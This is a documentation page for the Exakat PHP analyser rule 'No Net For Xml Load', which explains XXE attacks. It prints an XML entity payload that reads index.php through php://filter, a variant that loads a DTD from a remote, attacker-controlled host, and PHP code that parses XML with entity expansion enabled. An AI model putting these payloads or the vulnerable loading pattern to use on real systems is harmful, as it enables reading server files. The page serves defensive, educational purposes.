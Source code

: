 .. _security-nonetforxmlload:

.. _no-net-for-xml-load:

No Net For Xml Load
+++++++++++++++++++

  Simplexml and ext/DOM load all external entities from the web, by default. This is dangerous, in particular when loading unknown XML code.

Look at this XML code below : it is valid. It defines an entity ``xxe``, that is filled with a file, read on the system and base64 encoded.::

   
   
   &lt;!DOCTYPE replace [&lt;!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=index.php"&gt; ]&gt;
   <replace>&xxe;</replace>
   
   


This file could be processed with the following code : note, you can replace 'index.php' in the above entity by any valid filepath. 

 

Here, PHP tries to load the XML file, finds the entity, then solves the entity by encoding a file called ``index.php``. The source code of the file is not used as data in the XML file. 

At that point, the example illustrates how a XXE works : by using the XML `engine <https://www.php.net/engine>`_ to load external resources, and preprocessing the XML code. in fact, there is only one change to make this XML code arbitrarily injected :::

   
   
   &lt;!DOCTYPE replace [&lt;!ENTITY writer SYSTEM "https://www.example.com/entities.dtd"&gt; ]&gt;
   <replace>&xxe;</replace>
   
   


With the above example, the XML code is `static <https://www.php.net/manual/en/language.oop5.static.php>`_ (as, it never changes), but the 'xxe' definitions are loaded from a remove website, and are completely under the attacker control.

.. code-block:: php
   
   <?php 
       $dom = new DOMDocument();
       $dom->loadXML($xml, LIBXML_NOENT | LIBXML_DTDLOAD);
       $info = simplexml_import_dom($dom);
       
       print base64_decode($info[0]);
   ?>

See also `XML External Entity <https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XXE%20injection>`_,, `XML External Entity (XXE) Processing <https://www.owasp.org/index.php/XML_External_Entity_(XXE)_Processing>`_ and `Detecting and exploiting XXE in SAML Interfaces <https://web-in-security.blogspot.nl/2014/11/detecting-and-exploiting-xxe-in-saml.html>`_.

Connex PHP features
-------------------

  + `xml <https://php-dictionary.readthedocs.io/en/latest/dictionary/xml.ini.html>`_


Suggestions
___________

* Strip out any entity when using external XML
* Forbid any network to the XML engine, by configuring the XML engine without network access




Specs
_____

+--------------+-------------------------------------------------------------------------------------------------------------------------+
| Short name   | Security/NoNetForXmlLoad                                                                                                |
+--------------+-------------------------------------------------------------------------------------------------------------------------+
| Rulesets     | :ref:`All <ruleset-All>`, :ref:`Changed Behavior <ruleset-Changed-Behavior>`, :ref:`Security <ruleset-Security>`        |
+--------------+-------------------------------------------------------------------------------------------------------------------------+
| Exakat since | 1.0.11                                                                                                                  |
+--------------+-------------------------------------------------------------------------------------------------------------------------+
| PHP Version  | All                                                                                                                     |
+--------------+-------------------------------------------------------------------------------------------------------------------------+
| Severity     | Major                                                                                                                   |
+--------------+-------------------------------------------------------------------------------------------------------------------------+
| Time To Fix  | Slow (1 hour)                                                                                                           |
+--------------+-------------------------------------------------------------------------------------------------------------------------+
| Precision    | High                                                                                                                    |
+--------------+-------------------------------------------------------------------------------------------------------------------------+
| Available in | `Entreprise Edition <https://www.exakat.io/entreprise-edition>`_, `Exakat Cloud <https://www.exakat.io/exakat-cloud/>`_ |
+--------------+-------------------------------------------------------------------------------------------------------------------------+


